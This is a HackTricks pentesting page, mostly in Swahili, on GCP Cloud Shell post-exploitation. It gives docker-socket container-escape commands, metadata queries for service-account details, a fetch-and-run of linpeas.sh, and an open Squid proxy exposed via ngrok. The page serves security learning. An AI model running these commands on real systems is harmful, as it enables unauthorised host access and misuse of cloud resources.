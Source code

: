 # GCP - Cloud Shell Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Kwa maelezo zaidi kuhusu Cloud Shell angalia:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Container Escape

Kumbuka kwamba Google Cloud Shell inafanya kazi ndani ya kontena, unaweza **kuondoka kwa urahisi kwenye mwenyeji** kwa kufanya: 

{% code overflow="wrap" %}
```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```
{% endcode %}

Hii haitambuliki kama udhaifu na google, lakini inakupa mtazamo mpana wa kile kinachotokea katika mazingira hayo.

Zaidi ya hayo, angalia kwamba kutoka kwa mwenyeji unaweza kupata tokeni ya akaunti ya huduma:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```
{% endcode %}

Na mipaka ifuatayo:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"

https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```
{% endcode %}

Pata metadata kwa kutumia LinPEAS:

{% code overflow="wrap" %}
```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sh linpeas.sh -o cloud
```
{% endcode %}

Baada ya kutumia [https://github.com/carlospolop/bf\_my\_gcp\_permissions](https://github.com/carlospolop/bf\_my\_gcp\_permissions) na token ya Akaunti ya Huduma **hakuna ruhusa iliyogunduliwa**...

### Tumia kama Proxy

Ikiwa unataka kutumia mfano wako wa google cloud shell kama proxy unahitaji kukimbia amri zifuatazo (au ziweke kwenye faili .bashrc):
```bash
sudo apt install -y squid
```
Just for let you know Squid is a http proxy server. Create a **squid.conf** file with the following settings:
```bash
http_port 3128
cache_dir /var/cache/squid 100 16 256
acl all src 0.0.0.0/0
http_access allow all
```
nakala faili la **squid.conf** kwenye **/etc/squid**
```bash
sudo cp squid.conf /etc/squid
```
Hatimaye, endesha huduma ya squid:
```bash
sudo service squid start
```
Tumia ngrok kuruhusu proxy ipatikane kutoka nje:
```bash
./ngrok tcp 3128
```
Baada ya kuendesha nakala ya url ya tcp://. Ikiwa unataka kuendesha proxy kutoka kwa kivinjari, inapendekezwa kuondoa sehemu ya tcp:// na bandari na kuweka bandari hiyo katika uwanja wa bandari wa mipangilio ya proxy ya kivinjari chako (squid ni seva ya proxy ya http).

Kwa matumizi bora wakati wa kuanzisha, faili ya .bashrc inapaswa kuwa na mistari ifuatayo:
```bash
sudo apt install -y squid
sudo cp squid.conf /etc/squid/
sudo service squid start
cd ngrok;./ngrok tcp 3128
```
Maagizo yalinakiliwa kutoka [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key). Angalia ukurasa huo kwa mawazo mengine ya ajabu ya kuendesha aina yoyote ya programu (maktaba na hata windows) katika Cloud Shell.

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
